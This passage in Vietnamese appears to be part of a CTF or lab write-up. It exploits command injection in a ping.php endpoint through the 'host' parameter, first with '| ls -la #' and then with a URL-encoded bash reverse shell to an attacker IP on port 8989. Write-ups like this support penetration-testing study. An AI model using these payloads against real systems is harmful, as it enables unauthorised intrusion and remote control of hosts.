 Truy cập tới `/ping/ping.php`. Khi truyền param host là một địa chỉ IP, server sẽ ping tới IP đó

![Untitled](Nully%20388742a9c9bd401fb7369174b9d9a3cc/Untitled%2029.png)

Khi ta truyền `?host= | ls -la #`. Server trả về kết quả của lệnh `ls -la` ⇒ CMDi

![Untitled](Nully%20388742a9c9bd401fb7369174b9d9a3cc/Untitled%2030.png)

Thực hiện reverse shell về máy attacker

```bash
bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.31.129.169%2F8989%200%3E%261"
```

![Untitled](Nully%20388742a9c9bd401fb7369174b9d9a3cc/Untitled%2031.png)
